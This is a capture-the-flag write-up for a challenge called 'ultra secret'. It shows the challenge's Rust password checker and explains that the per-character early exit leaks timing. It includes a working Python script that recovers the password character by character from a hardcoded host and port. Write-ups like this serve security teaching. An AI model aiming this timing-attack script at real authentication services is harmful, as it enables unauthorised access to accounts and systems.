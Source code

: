 # ultra secret

## Challenge

This flag is protected by a password stored in a highly sohpisticated chain of hashes. Can you capture it nevertheless? We are certain the password consists of lowercase alphanumerical characters only.

nc 35.207.158.95 1337

[Source](https://35c3ctf.ccc.ac/uploads/juniorctf/ffb8d1ab6ff961419bee1cf1cddfb2e5-ultra_secret.tar)

Difficulti estimate: Easy-Medium

## Solution

The source code is given, so let's have a look at it:

```rust
extern crate crypto;

use std::io;
use std::io::BufRead;
use std::process::exit;
use std::io::BufReader;
use std::io::Read;
use std::fs::File;
use std::path::Path;
use std::env;

use crypto::digest::Digest;
use crypto::sha2::Sha256;

fn main() {
    let mut password = String::new();
    let mut flag = String::new();
    let mut i = 0;
    let stdin = io::stdin();
    let hashes: Vec<String> = BufReader::new(File::open(Path::new("hashes.txt")).unwrap()).lines().map(|x| x.unwrap()).collect();
    BufReader::new(File::open(Path::new("flag.txt")).unwrap()).read_to_string(&mut flag).unwrap();

    println!("Please enter the very secret password:");
    stdin.lock().read_line(&mut password).unwrap();
    let password = &password[0..32];
    for c in password.chars() {
        let hash =  hash(c);
        if hash != hashes[i] {
            exit(1);
        }
        i += 1;
    }
    println!("{}", &flag)
}

fn hash(c: char) -> String {
    let mut hash = String::new();
    hash.push(c);
    for _ in 0..9999 {
        let mut sha = Sha256::new();
        sha.input_str(&hash);
        hash = sha.result_str();
    }
    hash
}
```

From studying the source code we can learn that every character from the password we provide
will be chain hashed 10'000 times and then compared to the corresponding hash in the `hashes.txt` file.
So, the first character of the password will be hashed and compared to the first hash in `hashes.txt`.
The second character of the password will be hashed and compared to the second hash in `hashes.txt`.
And so forth ...

A soon as the first hash doesn't match the program terminates.
If all the hashes matched, the flag is revealed.

The problem with the above program is that chain hashing 10'000 times takes a measurable amount of time.
Thus, we can launch a timing attack.
The longer a password takes to verify the more characters from the beginning of the password are correct.
With that in mind and a few Python lines later we can exploit the timing of the hash algorithm and
get to the hash.

```python
import time
import socket

POSSIBLE_CHARS = "abcdefghijklmnopqrstuvwxyz0123456789"
HOST = "35.207.158.95"
PORT = 1337
PASS_LEN = 32

guessed_chars = []

for i in range(PASS_LEN):
    best_char = ("a", float("-inf"))
    for c in POSSIBLE_CHARS:
        # construct the new password guess
        guess = (
                "".join(guessed_chars) + c * (PASS_LEN - len(guessed_chars))
        ).encode("ascii")

        # connect to the exploitable service and provide the password
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((HOST, PORT))
        start = time.time_ns()
        s.recv(4096)  # read but ignore the prompt
        s.send(guess + b"\n")
        flag = s.recv(4096)
        if flag:
            print("Profit from the flag: '{}'".format(flag))
            exit(0)

        end = time.time_ns()
        duration = end - start
        if duration > best_char[1]:
            best_char = (c, duration)
        s.close()

    guessed_chars.append(best_char[0])
    print("Best character for {} is {} leading to {}".format(
        i, best_char[0], "".join(guessed_chars)))

print("Guessed password is:", "".join(guessed_chars), guessed_chars)
```

